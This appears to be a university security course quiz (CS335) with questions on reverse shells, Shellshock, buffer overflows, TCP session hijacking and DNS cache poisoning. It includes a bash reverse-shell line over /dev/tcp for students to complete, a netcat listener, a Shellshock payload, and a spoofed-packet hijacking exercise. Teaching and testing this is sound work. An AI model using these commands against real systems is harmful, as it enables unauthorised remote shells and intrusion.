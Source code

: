 ```yaml
---
layout: default
course_number: CS335
title: "Quiz 1 - Software and Network Security"
---
```


### Quiz 1 - 100 points

#### Computer Security (40 pts)

- (6 pts) Two of the vulnerability classes we discussed were Authorization bypass and Authentication bypass. What is the major difference between the two?

- (7 pts) If you run `nc -lv 9090` on a machine with IP: 10.0.2.4 and run `/bin/cat < /dev/tcp/10.0.2.4/9090 >& 0` on another machine, what is going to happen?

- (8 pts) In the reverse shell examples in class, we started by redirecting the standard output. Help me complete a reverse shell this time by redirecting to the standard output first: ` /bin/bash -i < /dev/tcp/10.0.2.4/9090 ...`.

- (6 pts) In class we executed the following commands:  
```
  foo='() { echo "hello world!"; }; echo “you have been pwned";’
  export foo
  bash_shellshock
  you have been pwned
```   
And we saw _you have been pwned_ on the screen. Will the following _reversed_ command execute and be vulnerable to the shellshock attack?
```
foo='echo “you have been pwned"; () { echo "hello world!"; }; ’
```
Why or why not?

- (5 pts) What are the 2 conditions which allow the Shellshock vulnerability to be exploitable.

- (8 pts) Remember the _bof_ function from the Buffer Overflow Lab:  
```c
int bof(char *str)
{  
    char buffer[BUF_SIZE];    
    strcpy(buffer, str);  
    return 1;
}
```
Draw the stack layout for this function.

#### Network Security (45 pts)

- (4 pts) An integer `0xWWXXYYZZ` is stored in memory starting at address `0x1000`. If the machine is a _Big-Endian_ machine, what is the value stored in addresses `0x1000`, `0x1001`, `0x1002`, and `0x1003`, respectively? If the machine is a _Little-Endian_ machine, how is this integer stored?  

- (5 pts) Consider the following program:  
```c
#include <arpa/inet.h>
#include <stdio.h>
void main() {
  int a = 1089712;
  printf("%x\n", htonl(a));
  printf("%x\n", ntohl(a));
}
```
What would be the result on _Big-Endian_? How about _Little-Indian_? Remember that network byte order is Big-Indian.

- (4 pts) In the SYN ﬂooding attack example in class we randomized the source IP address. Why cannot we just use the same IP address?

- (4 pts) Are TCP Reset Attacks effective against encrypted connections? Why or Why not?

- (10 pts) Presume there is an active Telnet connection from a  Client (10.0.2.5) to a Server (10.0.2.15). The server has just acknowledged a sequence number 34289, and the client has just acknowledged a sequence number 153980. An Attacker wants to launch the TCP session hijacking attack on the connection, so he can execute a remote shell on the server. The Attacker is on the same LAN as the Client and the Server. In order to launch the attack, the attacker needs to construct a TCP packet. Please help the Attacker to ﬁll in the following ﬁelds in the spoofed TCP packet:
  - Source IP:
  - Destination IP:
  - Source port:
  - Destination port:
  - Sequence number:
  - Acknowledgement number:
  - The TCP data ﬁeld:  


- (4 pts) In class we are used to referring of your own computer as _localhost_, now we would like to refer it as cs335host. What should you do to make that happen?

- (5 pts) What is DNS cache poisoning attack? What ﬁelds of the DNS query packet contain random data that need to be included in the response?

- (4 pts) DNS uses UDP by default, but the **dig** command has a flag to use TCP to send DNS queries. Verify that this is indeed the case, include your test results.

- (5 pts) My local DNS server received the following DNS reply.
```
;; QUESTION SECTION:
;www.yahoo.com.			IN	A  
;; ANSWER SECTION:
www.yahoo.com.		1617	IN	CNAME	atsv2-fp-shed.wg1.b.yahoo.com.
atsv2-fp-shed.wg1.b.yahoo.com. 60 IN	A	72.30.35.9
atsv2-fp-shed.wg1.b.yahoo.com. 60 IN	A	72.30.35.10
;; AUTHORITY SECTION:
.			1548	IN	NS	a.root-servers.net.
.			1548	IN	NS	e.root-servers.net.
.			1548	IN	NS	f.root-servers.net.
.			1548	IN	NS	c.root-servers.net.
.			1548	IN	NS	h.root-servers.net.
.			1548	IN	NS	g.root-servers.net.
.			1548	IN	NS	i.root-servers.net.
.			1548	IN	NS	d.root-servers.net.
.			1548	IN	NS	k.root-servers.net.
.			1548	IN	NS	l.root-servers.net.
.			1548	IN	NS	j.root-servers.net.
.			1548	IN	NS	b.root-servers.net.
.			1548	IN	NS	m.root-servers.net.
```
Which parts of the answer will not be cached by my local DNS server. Why not?

#### Wireshark (15 pts)    
I like to tell jokes. I also like to use FTP to transfer files from one machine to another. For the next 2 questions, please use [this](files\ftp.pcapng) Wireshark capture.

- (5 pts) What is the FTP program (including the software version) running on the server?

- (10 pts) What is the joke I'm trying to tell you?
  - Hint 1: The joke is in a zip file.
  - Hint 2: Wireshark's ability to `follow` protocol streams might be useful to you.
